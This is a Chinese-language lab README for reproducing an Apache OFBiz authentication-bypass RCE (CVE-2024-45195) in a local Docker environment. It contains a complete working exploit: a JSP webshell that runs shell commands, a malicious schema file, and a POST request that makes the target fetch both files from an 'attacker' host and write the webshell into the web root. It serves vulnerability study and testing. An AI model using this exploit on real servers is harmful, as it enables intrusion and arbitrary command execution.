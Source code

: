# Apache OFBiz 身份验证绕过导致远程代码执行（CVE-2024-45195）

Apache OFBiz是一个开源企业资源规划（ERP）系统。它提供了一套企业应用程序，集成并自动化企业的许多业务流程。

该漏洞是由于之前漏洞（CVE-2024-32113、CVE-2024-36104和CVE-2024-38856）未完全修复所导致。在Apache OFBiz版本18.12.16之前，开发人员对这些先前的问题进行了修复，但控制器视图地图状态不同步的根本问题仍然存在。这使得攻击者能够绕过身份验证并访问敏感的仅限管理员的视图地图。

参考文档：

- <https://github.com/apache/ofbiz-framework/commit/ab78769c2d>
- <https://github.com/apache/ofbiz-plugins/commit/8b95fe6fa>
- <https://www.rapid7.com/blog/post/2024/09/05/cve-2024-45195-apache-ofbiz-unauthenticated-remote-code-execution-fixed/>

## 漏洞环境

执行以下命令启动一个 Apache OfBiz 18.12.15服务器：

```
docker compose up -d
```

在等待数分钟后，访问`https://localhost:8443/accounting`查看到登录页面，说明环境已启动成功。

## 漏洞复现

在复现此漏洞之前，我们需要在自己控制的服务器上部署恶意XML文件和CSV文件。

第一个文件是`rceschema.xml`，此XML schema文件定义了恶意 JSP 的结构：

```xml
<data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
    <data-file name="rce" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
        <record name="rceentry" limit="many">
            <field name="jsp" type="String" length="605" position="0"></field>
        </record>
    </data-file>
</data-files>
```

第二个文件是`rcereport.csv`，此CSV文件包含实际的JSP代码：

```jsp
<%@ page import='java.io.*' %><%@ page import='java.util.*' %><h1>Ahoy!</h1><br><% String getcmd = request.getParameter("cmd"); if (getcmd != null) { out.println("Command: " + getcmd + "<br>"); String cmd1 = "/bin/sh"; String cmd2 = "-c"; String cmd3 = getcmd; String[] cmd = new String[3]; cmd[0] = cmd1; cmd[1] = cmd2; cmd[2] = cmd3; Process p = Runtime.getRuntime().exec(cmd); OutputStream os = p.getOutputStream(); InputStream in = p.getInputStream(); DataInputStream dis = new DataInputStream(in); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine();}} %>,
```

然后发送以下请求：

```
POST /webtools/control/forgotPassword/viewdatafile HTTP/1.1
Host: target:8443
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 241
Content-Type: application/x-www-form-urlencoded

DATAFILE_LOCATION=http://attacker/rcereport.csv&DATAFILE_SAVE=./applications/accounting/webapp/accounting/index.jsp&DATAFILE_IS_URL=true&DEFINITION_LOCATION=http://attacker/rceschema.xml&DEFINITION_IS_URL=true&DEFINITION_NAME=rce
```

![](1.png)

该请求通过利用viewdatafile视图地图将恶意JSP文件写入Web根目录，从而利用了该漏洞实现远程代码执行。

在JSP webshell被写入后，通过`https://localhost:8443/accounting/index.jsp?cmd=id`即可执行任意命令：

![](2.png)
